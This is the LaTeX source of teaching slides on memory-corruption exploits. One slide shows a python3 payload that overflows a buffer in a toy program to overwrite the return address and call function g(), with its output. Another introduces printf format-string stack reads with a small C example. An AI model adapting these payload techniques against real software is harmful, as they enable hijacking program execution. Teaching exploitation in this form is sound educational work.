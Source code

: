\documentclass{beamer}
\newcommand{\enlight}[1]{\textit{\color{blue}#1}}
\begin{document}
\begin{frame}[fragile]
\frametitle{The exploit in action}

\begin{lstlisting}[language=bash]
$ echo $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Jocelinebbbbbbbbv@
$ ./a.out $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Hello Jocelinebbbbbbbbv@ 7ffff208bff8
we are in g!
Segmentation fault (core dumped)
\end{lstlisting}

\begin{alertblock}{Result}
We successfully executed function \texttt{g()}! The \emph{segfault} is expected because \texttt{savedRBP} was corrupted.
\end{alertblock}

\end{frame}



\section{Exploiting the printf format string}

\subsection{Principle}

\begin{frame}[fragile]
\frametitle{The \texttt{printf} format string}

The \texttt{printf} format string can be used to \enlight{read the stack} at unintended memory locations.

\begin{lstlisting}[language=C]
#include <stdio.h>

int main(int argc, char **argv)
{
  int u=5,v=9,w=11;
  printf("u is %d and is at address %08x\n"
         "v is %d\nw is %d\n",u,&u,v);
}
\end{lstlisting}

\begin{lstlisting}[language=bash]
$ gcc -o format format.c
$ ./format
u is 5 and is at address bffff7d4
v is 9
\end{lstlisting}

\texttt{w} is not displayed because there are not enough arguments.

\end{frame}
\end{document}
